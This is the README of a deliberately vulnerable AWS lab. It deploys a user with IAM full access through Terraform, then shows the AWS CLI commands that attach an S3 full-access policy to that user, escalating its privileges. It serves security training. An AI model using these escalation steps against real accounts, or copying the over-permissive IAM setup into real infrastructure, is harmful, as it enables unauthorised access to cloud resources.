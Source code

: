 # AWS IAM Privilege Escalation Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the AWS IAM privilege escalation vulnerability environment.

After building the environment with Terraform, The IAM privilege elevation vulnerability can be used to access services that you would not otherwise have permission to access.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/aws/iam/privilege_escalation
```

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

After building the scenario, use the following command to view the access_key_id and secret_access_key of the low privilege account.

```shell
apt-get install jq -y
terraform state pull | jq '.resources[] | select(.type == "aws_iam_access_key") | .instances[0].attributes'
```

![img](../../../images/1652690733.png)

## Vulnerability Utilization

First configure the access_key_id and secret_access_key of the low privilege account.

```shell
aws configure
```

After the configuration, here is an example of S3 service, try to run the following command, you can see the return message shows that access is denied.

```shell
aws s3 ls
```

![img](../../../images/1652690932.png)

Get the privileges held by the current user.

```shell
aws iam get-user
aws iam list-user-policies --user-name huoxian_terraform_test
aws iam get-user-policy --user-name huoxian_terraform_test --policy-name IAMFullAccess
```

![img](../../../images/1652692179.png)

You can see that the current user has all the privileges of IAM, which means that we can give S3 privileges to the current user, thus enabling the current user to access S3 service resources.

Edit policy file

```shell
vim AmazonS3FullAccess.json
```

The contents of the policy file are as follows:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "s3:*",
                "s3-object-lambda:*"
            ],
            "Resource": "*"
        }
    ]
}
```

PUT policy file

```shell
aws iam put-user-policy --user-name huoxian_terraform_test --policy-name AmazonS3FullAccess --policy-document file://AmazonS3FullAccess.json
```

Try again to get the S3 service resource, you can see that it has been obtained, which means that the policy file is in effect, so that the IAM privilege elevation is achieved.

```shell
aws s3 ls
```

![img](../../../images/1652692416.png)

## Destroy the environment

```shell
aws iam delete-user-policy --user-name huoxian_terraform_test --policy-name AmazonS3FullAccess
terraform destroy
```
